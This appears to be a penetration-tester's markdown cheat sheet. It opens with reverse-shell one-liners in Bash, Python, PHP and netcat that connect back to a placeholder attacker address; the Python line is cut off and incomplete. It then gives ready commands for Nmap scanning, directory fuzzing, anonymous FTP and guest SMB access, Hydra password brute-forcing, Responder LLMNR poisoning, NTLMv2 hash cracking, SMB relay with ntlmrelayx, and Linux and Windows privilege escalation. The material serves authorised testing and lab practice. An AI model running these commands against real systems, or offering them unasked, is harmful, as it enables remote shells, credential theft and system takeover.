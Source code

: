 # Reverse shells

## Bash
bash -i >& /dev/tcp/<IP_ADDRESS>/<PORT> 0>&1

## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ADDRESS>",<PORT>));

## PHP
php -r '$sock=fsockopen("<IP_ADDRESS>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

## Netcat
nc -e /bin/sh <IP_ADDRESS> <PORT>

# Nmap

## Basic Nmap scan
nmap -sV -sC -vv <IP_ADDRESS>

## Comprehensive Nmap scan
nmap -sV -sC -vv -p- <IP_ADDRESS>

## Nmap says it's down?
nmap -Pn..

## What to note from Nmap scans
- Open ports
- Running services
- Service versions -> Look for exploits online or using searchsploit
- FTP Anonymous login allowed?
- Is RDP running?
- Non-standard ports for services such as ssh, http etc..

# Web testing

## Initial steps (not in order)
1. Check for common dirs (robots.txt, wp-login.php etc..)
2. Fuzz dirs with ffuf & dirb -> ffuf -w <WORDLIST_PATH>:FUZZ -u <URL>/FUZZ
3. Any page that takes URL parameters?
4. What technologies are running? (Use Wappalyzer extension, check response headers etc..)
5. Check page sources
6. Any JS scripts?
7. Anything in local storage or any cookies? (Decode if possible -> Possible session hijack) 
8. Move on to SQLi vectors, mess around with requests using Burpsuite/OWASP ZAP

# FTP

## FTP Anonymous login
-> Username: anonymous
-> Password: ""

# SMB

- Try user "guest" and no password

## smbmap

- Example: smbmap -H <HOST>

## smbclient

- List shares:	smbclient -L \\\\<HOST>
- Connect: 	smbclient \\\\<HOST>\\<SHARE>

# Brute-forcing services

- Burpsuite
- OWASP ZAP

## Hydra

- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> ssh://<IP_ADDRESS>
- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> <IP_ADDRESS> ssh -s <PORT>
- Example: hydra -l <USERNAME> -P <PASSWORD_LIST> <TARGET_IP> http-post-form "/Account/login.aspx:<Paste request body from network -> view raw, replace fields with ^USER^ and ^PASS^>:Login failed"

# Active Directory

## Using Responder for LLMNR poisoning
- This is very noisy
- Can only be done on the same network
- Might take a lot of time to intercept traffic

sudo responder -I <INTERFACE>

### Crack captured hashes from Responder with Hashcat
hashcat -m 5600 <HASH_FILE> <PASSWORD_FILE> --force
"-m 5600" -> is for NTLMv2 hashes, check formats with --help

## SMB Relay attack
- Turn off SMB & HTTP in Responder.conf

### Check if a host has SMB signing disabled with Nmap
nmap --script=smb2-security-mode.nse -p 445 <IP/CIDR>

### Listen for events in Responder

### Set up relay

ntlmrelayx.py -tf <TARGET_LIST_FILE> -smb2support

# Windows misc

## Hosts file
-> C:\Windows\System32\drivers\etc\hosts

# Privilege escalation

## Linux privesc
-> Check for hidden files
-> sudo -l
-> cat /etc/crontab
-> getcap -r / 2>/dev/null
-> find / -perm -04000 2>/dev/null
-> Use LINPEAS
-> Use pspy
-> Check /opt
-> Check config files for credentials

## Windows privesc

### 1 (From simple reverse shell)
-> whoami /priv
-> (SeImpersonatePrivilege        Impersonate a client after authentication Enabled) ?
-> Use PrintSpoofer.exe
-> PrintSpoofer.exe -i -c cmd
